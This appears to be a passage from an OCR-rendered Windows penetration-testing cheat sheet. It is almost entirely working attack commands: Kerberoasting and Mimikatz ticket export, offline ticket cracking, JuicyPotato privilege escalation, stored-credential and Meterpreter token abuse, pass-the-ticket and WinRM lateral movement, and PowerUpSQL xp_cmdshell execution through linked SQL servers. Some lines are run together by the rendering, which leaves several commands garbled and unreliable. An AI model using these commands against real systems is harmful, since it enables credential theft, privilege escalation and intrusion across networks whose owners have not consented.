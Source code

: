 powershell.exe -c "Import-Module C:\Users\Public\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat Hashcat"
Invoke-Mimikatz -Command '"kerberos::list /export"'
# Crack Tickets
python tgsrepcrack.py /usr/share/wordlists/rockyou.txt ticket.kirbi

### Juicy Potato Exploit
https://github.com/ohpe/juicy-potato/releases Pick one CLSID from here according to your system https://github.com/ohpe/juicy-potato/tree/master/CLSID

Required tokens SeAssignPrimaryTokenPrivilege SeImpersonatePrivilege

C:\Windows\Temp\JuicyPotato.exe -p cmd.exe -a "/c whoami > C:\Users\Public\morph3.txt" -t * -l 1031 -c {d20a3293-3341-4ae8-9aaf-8e397cb63c34}

### Stored Credential
# To check if there is any stored keyscmdkey /list
# Using them
runas /user:administrator /savecred "cmd.exe /k whoami"

### Impersonating Tokens with Meterpreter
use incognito
list_tokens -u
impersonate_token 
NT-AUTHORITY\System


## Lateral Movement
PsExec, SmbExec, WMIExec, RDP, PTH in general. Since windows gave support to OpenSSH we should also consider SSH.

### Mimikatz Ticket PTH
Enable-PSRemotingmimikatz.exe '" kerberos:ptt C:\Users\Public\ticketname.kirbi"' "exit"Enter-PSSession -ComputerName ECORP

### Winrm Session
$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass)Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }

### Database Links
# PowerUpSQL
https://github.com/NetSPI/PowerUpSQL
Get-SQLServerLink -Instance server -Verbose
powershell.exe -c "Import-Module C:\Users\Public\PowerUpSQL.ps1; Invoke-SQLEscalatePriv -Verbose -Instance ECORP\sql"
# To see servers 
select srvname from master..sysservers;
# Native
Get-SQLServerLinkCrawl -Instance server -Query "exec master..xp_cmdshell 'whoami'"
# Linked database tables